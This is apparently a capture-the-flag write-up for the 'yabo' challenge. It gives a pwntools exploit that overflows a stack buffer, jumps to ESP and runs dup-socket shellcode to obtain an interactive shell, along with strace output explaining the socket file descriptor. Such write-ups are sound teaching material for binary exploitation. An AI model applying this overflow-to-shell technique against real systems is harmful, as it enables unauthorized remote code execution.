I'm going to provide three solution, from the last I developed, to the first.
All three are identical except for the shellcode used.

### Solution 3

```python  
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./yabo')

if args.REMOTE:  
   p = remote('challenge.ctf.games', 32332)  
else:  
   p = remote('127.0.0.1', 9999)

shellcode = asm(shellcraft.dupsh(4))

log.info('len(shellcode): ' + str(len(shellcode)))

jmp_esp = next(binary.search(asm('jmp esp')))

payload  = b''  
payload += 0x414 * b'A'  
payload += p32(jmp_esp)  
payload += shellcode

if payload.find(b'\0') != -1:  
   log.critical('NULL in payload, exiting!')  
   print(disasm(shellcode))  
   sys.exit(1)

p.sendlineafter(b'say?: ',payload)  
p.interactive()  
```

Up to the `shellcode` line it's standard pwntools header, however pwntools
does all the work for you with its `shellcraft.dupsh` widget.  You just need
to know the file descriptor to pass and that can be obtained from `strace`:

```  
[pid 29960] brk(NULL)                   = 0x895c000  
[pid 29960] brk(0x897d000)              = 0x897d000  
[pid 29960] brk(0x897e000)              = 0x897e000  
[pid 29960] send(4, "What would you like to say?: ", 29, 0) = 29  
[pid 29960] recv(4, "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"..., 3839, 0) = 1088  
```

See the `4` being passed to `send` and `recv`?  It will always be `4` (at
least for this challenge).

> The short of it is, file descriptors `0`, `1`, `2` are conventionally used
> for `stdin`, `stdout`, `stderr`.  For a challenge like this FD `3` is the
> socket listening to port `9999` (see `main`).  When you connect to port
> `9999` (FD `3`) the process is forked and that forked process has a copy of
> the FDs, so the next FD returned from the `accept` call will be `4`.  And in
> most CTF challenges like this, it is `4`.  That `4` is passed to the `vuln`
> function for `send` and `recv` use.
